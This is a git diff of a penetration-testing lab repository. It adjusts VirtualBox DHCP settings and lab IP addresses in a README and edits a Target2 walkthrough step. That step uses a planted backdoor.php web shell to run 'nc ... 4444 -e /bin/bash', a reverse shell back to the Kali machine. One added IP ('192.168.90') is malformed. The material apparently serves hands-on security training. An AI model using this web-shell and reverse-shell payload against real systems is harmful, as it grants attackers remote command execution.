

update all files

Changed region(s): [[0.0, 0.0, 0.916, 0.9172]]

diff --git a/README.md b/README.md
@@ -87,7 +87,7 @@ For windows type:
 
 Then, type:
 
-    vboxmanage dhcpserver add --network=pentest --server-ip=192.168.1.1 --lower-ip=192.168.1.100 --upper-ip=192.168.1.120 --netmask=255.255.255.0 --enable 
+    vboxmanage dhcpserver add --network=pentest --server-ip=192.168.1.1 --lower-ip=192.168.1.80 --upper-ip=192.168.1.120 --netmask=255.255.255.0 --enable 
     
 ### **Optional** 
 
@@ -95,6 +95,7 @@ To set the machines with the same IP address as this exercise:
 
 - target1: 192.168.1.110 
 - target2: 192.168.1.115
+- kali: 192.168.90
 
 Modify the next payloads and run them in the same place path the DHCP server was set.
 

diff --git a/WalkThroughs/Target2 WalkThrought .md b/WalkThroughs/Target2 WalkThrought .md
@@ -144,7 +144,7 @@ Tools:
 
 19. Make Target2 call the Kali Linux machine with the NetCat command embedded in the next payload after running it in the browser.
 
-        192.168.1.115/backdoor.php?cmd=nc 192.168.1.101 4444 -e /bin/bash
+        192.168.1.115/backdoor.php?cmd=nc 192.168.1.90 4444 -e /bin/bash
 
     **Change the second IP address in the payload to the IP address of your own kali Linux machine.**
 
